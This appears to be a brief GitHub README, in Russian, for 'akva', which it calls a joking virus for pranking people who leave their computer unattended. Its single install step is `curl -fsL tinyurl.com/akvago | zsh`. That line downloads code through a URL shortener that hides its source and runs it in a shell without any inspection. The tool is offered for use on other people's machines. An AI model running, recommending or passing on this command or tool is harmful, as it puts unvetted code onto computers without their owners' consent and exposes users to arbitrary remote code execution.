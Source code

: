 # akva

шутливый вирус для проучивания тех, кто бросает комп без присмотра

Скачать:
`curl -fsL tinyurl.com/akvago | zsh`
